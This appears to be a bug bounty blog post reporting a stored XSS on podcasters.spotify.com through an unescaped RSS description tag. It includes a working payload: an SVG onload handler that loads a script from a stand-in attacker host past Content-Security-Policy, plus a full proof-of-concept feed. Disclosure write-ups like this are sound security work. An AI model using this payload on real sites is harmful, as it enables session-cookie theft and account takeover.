 ```yaml
---
layout: post
title: A XSS on podcasters.spotify.com 
date: 2021-04-06 16:49:47 +07:00
#modified: 2020-10-26 16:49:47 +07:00
description: A quick report of a XSS vulnerability discovered on podcasters.spotify.com.
tags:
  - bug bounty
  - spotify
  - xss
  - web vulnerability
image: /assets/img/xss-on-podcasters.spotify.com/
---
```


In this blog post I'll share a report I wrote a few months ago for a XSS bug found on `podcasters.spotify.com`. This was submitted on [HackerOne](https://hackerone.com/) but unfortunately, it was already reported and mine was considered a duplicate, oh well, better luck next time.


## Summary
When a user submits a new podcast RSS feed for verification, the description tag inside it is not properly escaped. This results in JavaScript being executed on the page which could allow attackers to hijack users' session cookies and/or take over accounts.

## Impact
When a user submits a malicious or compromised podcast RSS feed, attackers would be able to hijack the user's account.

![alt text]({{page.image}}spotify-xss-example.png "XSS Cookie Alert Example")

Web browser network log.
![alt text]({{page.image}}spotify-xss-example2.png "XSS Example 2")

### Steps To Reproduce

1. Start by navigating to: `https://podcasters.spotify.com/submit`
2. Click on "Get Started" button
3. Submit a malicious RSS feed link (proof of concept provided)
4. The page renders whatever is in `<description></description>` 

The proof of concept simply shows the logged-in user's cookie in the web browser. I've provided a link to my custom podcast RSS feed: `https://attacker.com/feed.xml`. The **feed.xml** attachment contains HTML which includes a **x.js** Javascript which alerts the user's cookie. This was tested to check whether it was possible to get around Content-Security-Policy, and it is.

Sample of **feed.xml** (view attachment):
```xml
----[CUT]----
<description>
<![CDATA[<svg/onload=body.appendChild(document.createElement`script`).src='https://attacker.com/x.js' hidden/>]]>
</description>
----[CUT]----
```

And **x.js** simply contains:
```
alert(document.cookie)
```


### Proof of Concept
**feed.xml**

```xml
<rss version="2.0" xmlns:itunes="http://www.itunes.com/dtds/podcast-1.0.dtd" xmlns:googleplay="http://www.google.com/schemas/play-podcasts/1.0" xmlns:atom="http://www.w3.org/2005/Atom" xmlns:media="http://search.yahoo.com/mrss/" xmlns:content="http://purl.org/rss/1.0/modules/content/">
<channel>
    <atom:link href="https://attacker.com/feed.xml" rel="self" type="application/rss+xml"/>
    <title>REKITTO</title>
    <link>https://attacker.com/feed.xml</link>
    <language>en-gb</language>
    <description><![CDATA[<svg/onload=body.appendChild(document.createElement`script`).src='https://attacker.com/x.js' hidden/>]]></description>
    <image>
      <url>https://attacker.com/serial-itunes-logo.png</url>
      <title>XYZ</title>
      <link>https://attacker.com/</link>
    </image>
    <itunes:explicit>no</itunes:explicit>
    <itunes:type>episodic</itunes:type>
    <itunes:subtitle>True stories from the dark side of the Internet</itunes:subtitle>
    <itunes:author>Tester</itunes:author>
    <itunes:summary>Summary text here.</itunes:summary>
    <itunes:owner>
      <itunes:name>Tester</itunes:name>
      <itunes:email>user@example.com</itunes:email>
    </itunes:owner>
    <itunes:image href="https://attacker.com/serial-itunes-logo.png"/>
    <itunes:category text="Technology">
    </itunes:category>
    <item>
      <title>Streaming: The Example Show</title>
      <description>Some text here.</description>
      <pubDate>Sat, 23 May 2020 03:29:15 -0000</pubDate>
      <itunes:title>Testing</itunes:title>
      <itunes:episodeType>trailer</itunes:episodeType>
      <itunes:keywords><![CDATA[<p>More Text</p>]]></itunes:keywords>
      <itunes:author>Tester</itunes:author>
      <itunes:image href="https://attacker.com/serial-itunes-logo.png"/>
      <itunes:subtitle>Streaming: The Example Show</itunes:subtitle>
      <itunes:summary>Another summary :)</itunes:summary>
      <content:encoded>
        <![CDATA[<p>Even more encoded text</p>]]>
      </content:encoded>
      <itunes:duration>6</itunes:duration>
      <itunes:explicit>no</itunes:explicit>
      <guid isPermaLink="false"><![CDATA[dd10738e-9efg-11ea-bb2d-cf99e05d892b]]></guid>
      <enclosure url="https://attacker.com/sample.mp3" length="6" type="audio/mpeg"/>
    </item>
  </channel>
</rss>
```

